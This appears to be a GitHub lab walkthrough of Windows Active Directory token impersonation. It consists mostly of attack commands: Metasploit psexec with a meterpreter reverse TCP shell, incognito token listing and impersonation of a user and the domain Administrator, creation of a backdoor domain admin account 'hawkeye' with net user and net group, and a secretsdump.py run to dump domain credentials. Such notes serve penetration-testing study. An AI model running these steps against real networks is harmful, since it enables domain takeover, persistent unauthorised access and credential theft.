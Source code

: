 ## Token Impersonation Walkthrough

### Domain User Impersonation
- Load metasploit
- `use exploit/windows/smb/psexec`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set rhost <user machine IP>`
- `set smbuser <username>`
- `set smbpass <password>`
- `set smbdomain <domain>`
- `run`
- Should get a meterpreter shell now
- `load incognito`
- `list_tokens -u`

  ![image](https://github.com/user-attachments/assets/bc2decab-98b2-4e1e-9c0c-81b49b3bcbc7)

- `impersonate_token <domain>\\<username>`

  ![image](https://github.com/user-attachments/assets/c04e5b9c-ddd5-439c-9ea6-7b779c69a717)

### Domain Admin Impersonation
- Logon as Domain Admin to workstation
- `list_tokens -u`

  ![image](https://github.com/user-attachments/assets/ecc73ff8-249a-43c8-be56-8766912b4bc0)

- `impersonate_token <domain>\\Administrator`

  ![image](https://github.com/user-attachments/assets/f3628b8c-1cf9-4515-952d-a4207a1201dd)

### Create a New Domain Admin
- `shell`
- `net user /add hawkeye Password1@ /domain`

  ![image](https://github.com/user-attachments/assets/b4b4bc9e-ef2e-4eed-9354-a64140d9c540)

- `net group "Domain Admins" hawkeye /ADD /DOMAIN`

  ![image](https://github.com/user-attachments/assets/4e97ca09-61b3-4fba-aebd-e6d88630a8d9)

### PoC
- Dump secrets: `secretsdump.py <domain>/hawkeye:'Password1@'@<DC IP>`

  ![image](https://github.com/user-attachments/assets/cee67092-e6d1-43c4-b8cd-27d5cfd90152)

- WOAH


![image](https://github.com/user-attachments/assets/20658b02-84e0-4bad-8cf7-c94435c88bc1)

